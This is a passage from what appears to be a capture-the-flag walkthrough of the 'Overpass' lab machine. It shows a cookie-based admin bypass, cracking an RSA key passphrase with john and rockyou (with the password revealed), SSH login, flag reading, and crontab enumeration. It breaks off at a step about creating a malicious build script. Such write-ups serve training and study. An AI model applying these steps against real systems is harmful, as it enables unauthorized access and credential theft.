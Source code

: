 4. Exploit the flawed authentication logic by manually setting a SessionToken cookie. Open browser developer tools (F12) and execute in the console

```javascript
Cookies.set("SessionToken", "");
```

<img width="849" height="639" alt="SCREEN04" src="https://github.com/user-attachments/assets/124491f0-ccf7-48ae-8dc3-843619632f29" />

5. Refresh the `/admin/` page. This grants access to the admin panel, which contains James's RSA private key. The RSA key is password-protected. Extract and crack the password
   - The password is `james13`

```bash
chmod 600 rsa
/opt/john/ssh2john.py rsa > rsa.hash
john rsa.hash --wordlist=/root/Tools/wordlists/rockyou.txt
ssh -i rsa james@<TARGET_IP>
```

<img width="718" height="359" alt="SCREEN05" src="https://github.com/user-attachments/assets/dabbf5c4-0749-446e-8391-6a8900f4a748" />

6. Once logged in as james, locate and read the user flag

```bash
cat user.txt
```

<img width="723" height="414" alt="SCREEN06" src="https://github.com/user-attachments/assets/ebe19059-c366-4ca6-a2db-1efc27ebfa83" />

---

### Escalate your privileges and get the flag in root.txt

1. Examine the user's home directory for any interesting files. The todo.txt file hints at an automated build process that might be exploitable

```bash
cat todo.txt
```

```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

2. Check for scheduled tasks that might run with elevated privileges

```bash
cat /etc/crontab
```

3. Create a malicious build script and set up listeners
